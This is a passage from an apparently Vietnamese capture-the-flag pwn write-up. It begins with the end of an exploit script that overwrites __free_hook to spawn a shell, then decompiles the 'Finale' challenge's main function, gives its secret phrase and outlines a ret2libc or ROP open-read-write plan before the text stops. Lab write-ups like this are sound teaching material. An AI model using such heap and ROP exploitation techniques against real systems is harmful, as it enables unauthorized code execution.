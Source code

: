 delete(2) # trigger overwritten __free_hook() --> system("/bin/sh").

sh.interactive()
```

---------


30 . Finale (ROP ORW)
------


- 1 bài ret2libc bình thường , tuy nhiên  sau khi làm xong thì ý đồ của author ở bài này là dùng ROP orw 



reverse : 

nhập random vào buf , nếu chuỗi nhập vào là "s34s0nf1n4l3b00" thì gọi hàm  finale() 

```

int __cdecl main(int argc, const char **argv, const char **envp)
{
  char s1[8]; // [rsp+0h] [rbp-40h] BYREF
  __int64 v5; // [rsp+8h] [rbp-38h]
  int v6; // [rsp+10h] [rbp-30h]
  __int64 buf[2]; // [rsp+20h] [rbp-20h] BYREF
  int fd; // [rsp+34h] [rbp-Ch]
  unsigned __int64 i; // [rsp+38h] [rbp-8h]

  banner(argc, argv, envp);
  buf[0] = 0LL;
  buf[1] = 0LL;
  fd = open("/dev/urandom", 0);
  read(fd, buf, 8uLL);
  printf("\n[Strange man in mask screams some nonsense]: %s\n\n", (const char *)buf);
  close(fd);
  *(_QWORD *)s1 = 0LL;
  v5 = 0LL;
  v6 = 0;
  printf("[Strange man in mask]: In order to proceed, tell us the secret phrase: ");
  __isoc99_scanf("%16s", s1);
  for ( i = 0LL; i <= 0xE; ++i )
  {
    if ( s1[i] == 10 )
    {
      s1[i] = 0;
      break;
    }
  }
  if ( !strncmp(s1, "s34s0nf1n4l3b00", 0xFuLL) )
    finale();
  else
    printf("%s\n[Strange man in mask]: Sorry, you are not allowed to enter here!\n\n", "\x1B[1;31m");
  return 0;
}
```

 finale  : 
 
 thấy ngay BOF và các gadget như pop_rdi , pop_rsi đồ cũng có luôn nên nghĩ đến hướng ret2libc , tuy nhiên ta sẽ thử làm ROP orw thử
 
```